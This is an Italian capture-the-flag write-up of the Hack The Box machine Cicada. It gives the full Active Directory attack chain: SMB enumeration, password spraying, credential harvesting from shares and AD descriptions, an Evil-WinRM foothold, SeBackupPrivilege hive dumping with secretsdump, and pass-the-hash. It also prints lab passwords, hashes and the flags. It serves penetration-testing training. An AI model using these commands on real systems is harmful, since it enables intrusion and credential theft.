









---
tags:
  - htb
  - windows
  - active-directory
  - easy
  - writeup
  - password-spraying
  - smb-enumeration
  - SeBackupPrivilege
  - pass-the-hash
modulo: HTB Labs - Intro to Red Team
sezione: Cicada
cross_links:
  - "[[Password Attacks]]"
  - "[[Extracting Passwords from Windows Systems]]"
  - "[[Active Directory Enumeration]]"
---

# Cicada — HTB Easy Windows

> [!abstract] Panoramica
> Cicada è una macchina Windows Easy focalizzata su **Active Directory enumeration** e **privilege escalation**. Il percorso completo include: enumerazione SMB anonima → password di default → password spray → credenziali in descrizione AD → credenziali in script PowerShell → WinRM foothold → SeBackupPrivilege → Pass-the-Hash come Administrator.

| Campo | Valore |
|---|---|
| IP Target | 10.129.231.149 |
| OS | Windows Server 2022 |
| Dominio | cicada.htb |
| Hostname | CICADA-DC.cicada.htb |
| Difficoltà | Easy |
| Categoria | Active Directory |

---

## Riepilogo del Percorso

```
SMB anonimo (HR share)
    → Password di default in Notice from HR.txt
        → impacket-lookupsid → lista utenti
            → Password spray → michael.wrightson
                → Enumerazione utenti autenticata → password in descrizione AD di david.orelious
                    → Accesso SMB share DEV → Backup_script.ps1 → credenziali emily.oscars
                        → Evil-WinRM foothold (emily.oscars)
                            → SeBackupPrivilege → reg save SAM/SYSTEM
                                → impacket-secretsdump → hash Administrator
                                    → Pass-the-Hash → root
```

---

## 1. Ricognizione

### 1.1 Nmap — Porte Aperte

```bash
nmap -p- --min-rate 10000 -oA nmap_allport 10.129.231.149
nmap -p 53,88,135,139,389,445,464,593,636,3268,3269,5985,60483 -sV -sC -oA nmap-detailed 10.129.231.149
```



| Porta | Servizio | Note |
|---|---|---|
| 53/tcp | DNS (Simple DNS Plus) | TCP aperto → zone transfer possibile |
| 88/tcp | Kerberos | Conferma: Domain Controller |
| 135/tcp | MSRPC | |
| 139/tcp | NetBIOS-SSN | |
| 389/tcp | LDAP | Dominio: `cicada.htb` |
| 445/tcp | SMB | SMB signing: **required** |
| 464/tcp | kpasswd5 | |
| 593/tcp | RPC over HTTP | |
| 636/tcp | LDAPS | |
| 3268/tcp | Global Catalog LDAP | |
| 3269/tcp | Global Catalog LDAPS | |
| **5985/tcp** | **WinRM** | **Vettore di accesso futuro** |
| 60483/tcp | MSRPC | |

> [!warning] Clock Skew Elevato
> Nmap rileva uno skew di **~7 ore** tra il target e l'attaccante. Kerberos tollera al massimo 5 minuti di differenza — tenere a mente se gli attacchi Kerberos falliscono inspiegabilmente.
> ```bash
> sudo ntpdate 10.129.231.149
> ```

> [!note] SMB Signing Required
> `smb2-security-mode: Message signing enabled and required` — esclude attacchi di tipo NTLM relay verso SMB. Non influisce sul percorso di questa macchina.

### 1.2 /etc/hosts

```bash
echo "10.129.231.149 cicada.htb CICADA-DC.cicada.htb" | sudo tee -a /etc/hosts
```

---

## 2. Enumerazione SMB — Accesso Anonimo

### 2.1 Listing Share con guest

```bash
smbclient -N -L //10.129.231.149
# oppure
netexec smb 10.129.231.149 -u 'guest' -p '' --shares
```

| Share | Permessi (guest) | Nota |
|---|---|---|
| ADMIN$ | — | Share amministrativa |
| C$ | — | Share amministrativa |
| **DEV** | — | Custom, accesso negato a guest |
| **HR** | **READ** | Custom, accessibile! |
| IPC$ | READ | |
| NETLOGON | — | |
| SYSVOL | — | |

### 2.2 Contenuto Share HR

```bash
smbclient //10.129.231.149/HR
smb: \> get "Notice from HR.txt"
```

Il file contiene una **password di default** per i nuovi assunti:



```
Your default password is: Cicada$M6Corpb*@Lp#nZp!8
```



> [!important] Credential Reuse
> Trovare una password di default in una share accessibile anonimamente è una finding critica. Il passo successivo metodologico è enumerare tutti gli utenti del dominio e provare questa password su ognuno (password spray).

---

## 3. Enumerazione Utenti — SID Brute Force

RPC anonima e null session risultano bloccate. Si utilizza `impacket-lookupsid` con l'utente guest per enumerare i SID del dominio:

```bash
impacket-lookupsid guest@10.129.231.149 -no-pass
```

Output rilevante (solo `SidTypeUser`):

```
1104: CICADA\john.smoulder
1105: CICADA\sarah.dantelia
1106: CICADA\michael.wrightson
1108: CICADA\david.orelious
1601: CICADA\emily.oscars
```

Costruzione della lista utenti:

```bash
impacket-lookupsid guest@10.129.231.149 -no-pass \
  | grep SidTypeUser \
  | grep -v -E 'Administrator|Guest|krbtgt|DC\$' \
  | awk -F'\\' '{print $2}' \
  | awk '{print $1}' > users.txt
```

---

## 4. Password Spray

```bash
netexec smb 10.129.231.149 -u users.txt -p 'Cicada$M6Corpb*@Lp#nZp!8'
```

Risultato:

```
[+] cicada.htb\michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8
```

> [!tip] Metodologia
> Il password spray va eseguito **lentamente** in ambienti reali per evitare lockout degli account. In HTB la soglia di lockout è solitamente disabilitata o alta, ma è buona pratica usare `--no-bruteforce` e aggiungere delay tra i tentativi.

---

## 5. Enumerazione Autenticata — michael.wrightson

Con le credenziali di Michael si enumerano share e utenti del dominio con dettaglio maggiore:

```bash
netexec smb 10.129.231.149 -u michael.wrightson -p 'Cicada$M6Corpb*@Lp#nZp!8' --shares
netexec smb 10.129.231.149 -u michael.wrightson -p 'Cicada$M6Corpb*@Lp#nZp!8' --users
```

> [!danger] Credenziali in Descrizione AD
> L'output di `--users` rivela che **david.orelious** ha salvato la propria password nel campo descrizione dell'account AD:
> ```
> david.orelious  desc: Just in case I forget my password is aRt$Lp#7t*VQ!3
> ```
> Pratica comune e pericolosa nei contesti reali. Qualsiasi utente autenticato può leggere le descrizioni degli account AD.

---

## 6. Escalation a david.orelious — Share DEV

```bash
netexec smb 10.129.231.149 -u david.orelious -p 'aRt$Lp#7t*VQ!3' --shares
```

David ha accesso **READ** alla share **DEV** (negata a michael).

```bash
smbclient //10.129.231.149/DEV -U 'david.orelious%aRt$Lp#7t*VQ!3'
smb: \> get Backup_script.ps1
```

Contenuto del file:

```powershell
$username = "emily.oscars"
$password = ConvertTo-SecureString "Q!3@Lp#M6b*7t*Vt" -AsPlainText -Force
```

> [!warning] Credenziali in Chiaro negli Script
> Uno script di backup con credenziali hardcoded in plaintext è una finding comune nei pentest reali. Gli script PowerShell di automazione sono tra i primi posti dove cercare credenziali durante la fase di enumerazione post-foothold.

---

## 7. Foothold — emily.oscars via WinRM

La porta 5985 (WinRM) era aperta dall'enumerazione iniziale. Emily è membro del gruppo **Remote Management Users**:

```bash
evil-winrm -i cicada.htb -u emily.oscars -p 'Q!3@Lp#M6b*7t*Vt'
```



```
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Documents>
whoami → cicada\emily.oscars
```

### User Flag

```powershell
type C:\Users\emily.oscars.CICADA\Desktop\user.txt
```

```
e35e44416a1b5505756945e68e87db8d
```



---

## 8. Privilege Escalation — SeBackupPrivilege

```powershell
whoami /priv
```

| Privilegio | Stato |
|---|---|
| **SeBackupPrivilege** | **Enabled** |
| SeRestorePrivilege | Enabled |
| SeShutdownPrivilege | Enabled |
| SeChangeNotifyPrivilege | Enabled |



> [!important] SeBackupPrivilege
> Questo privilegio è progettato per consentire il backup di file di sistema, bypassando i permessi NTFS. Consente di leggere qualsiasi file del sistema, inclusi i **registry hive** SAM e SYSTEM che contengono gli hash NTLM degli utenti locali.

### 8.1 Dump dei Registry Hive

```powershell
reg.exe save hklm\sam C:\Users\emily.oscars.CICADA\Desktop\sam.save
reg.exe save hklm\system C:\Users\emily.oscars.CICADA\Desktop\system.save
```

### 8.2 Download su Kali

```powershell
download sam.save
download system.save
```



> [!tip] Evil-WinRM Download
> Evil-WinRM ha il comando `download` integrato — non serve smbserver o altri metodi di trasferimento file.

### 8.3 Dump degli Hash con impacket-secretsdump

```bash
impacket-secretsdump -sam sam.save -system system.save LOCAL
```

```
[*] Target system bootKey: 0x3c2b033757a49110a9ee680b46e8d620
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341:::
```



> [!note] Formato Hash NTLM
> Il formato è `utente:RID:LM_hash:NT_hash`. L'LM hash `aad3b435b51404eeaad3b435b51404ee` è il valore fisso che indica "LM hash non presente". L'NT hash è quello che usiamo per il Pass-the-Hash.

---

## 9. Pass-the-Hash — Administrator

```bash
evil-winrm -i cicada.htb -u Administrator -H 2b87e7c93a3e8a0ea4a581937016f341
```

```
*Evil-WinRM* PS C:\Users\Administrator\Documents>
```

### Root Flag

```powershell
type C:\Users\Administrator\Desktop\root.txt
```

```
066fd77ddefe485973d5ddb84a05a8c6
```



---

## Credenziali Raccolte

| Utente | Password / Hash | Dove Trovato |
|---|---|---|
| (qualsiasi) | `Cicada$M6Corpb*@Lp#nZp!8` | `Notice from HR.txt` — SMB share HR |
| michael.wrightson | `Cicada$M6Corpb*@Lp#nZp!8` | Password spray |
| david.orelious | `aRt$Lp#7t*VQ!3` | Descrizione account AD |
| emily.oscars | `Q!3@Lp#M6b*7t*Vt` | `Backup_script.ps1` — SMB share DEV |
| Administrator | `2b87e7c93a3e8a0ea4a581937016f341` (NTLM) | impacket-secretsdump |

---

## Flag

| Flag | Hash |
|---|---|
| user.txt | `e35e44416a1b5505756945e68e87db8d` |
| root.txt | `066fd77ddefe485973d5ddb84a05a8c6` |

---

## Perché è Complesso

- **SID brute force vs null session**: La null session RPC era bloccata, ma `impacket-lookupsid` con utente guest riesce comunque perché sfrutta un endpoint diverso (`\pipe\lsarpc`). Non sono equivalenti.
- **crackmapexec è deprecato**: Su Kali recente il binario si chiama `netexec` — stessa sintassi, stesso progetto.
- **Clock skew e Kerberos**: 7 ore di differenza avrebbero rotto qualsiasi attacco Kerberos (TGT request, Pass-the-Ticket). In questo percorso non era necessario sincronizzare perché abbiamo usato NTLM ovunque, ma in ambienti con Kerberos obbligatorio sarebbe bloccante.
- **SMB signing required**: Impedisce NTLM relay verso SMB, ma non verso altri protocolli (LDAP, HTTP). Non ci ha impattato qui ma è da notare per future macchine AD.
- **SeBackupPrivilege senza tool esterni**: Non servono DLL o tool aggiuntivi — `reg.exe save` è un comando Windows nativo che funziona grazie al privilegio. Il download con evil-winrm è integrato e non richiede setup di smbserver.
- **LM hash fisso**: Il valore `aad3b435b51404eeaad3b435b51404ee` non è un hash reale ma un placeholder che indica che LM hashing è disabilitato (default da Windows Vista in poi). Non va tentato di craccare.
- **Credential reuse a cascata**: Ogni utente aveva credenziali che aprivano l'accesso a quelle successive — pattern molto comune nei pentest AD reali. La metodologia corretta è sempre provare le nuove credenziali su tutti i servizi disponibili prima di procedere.
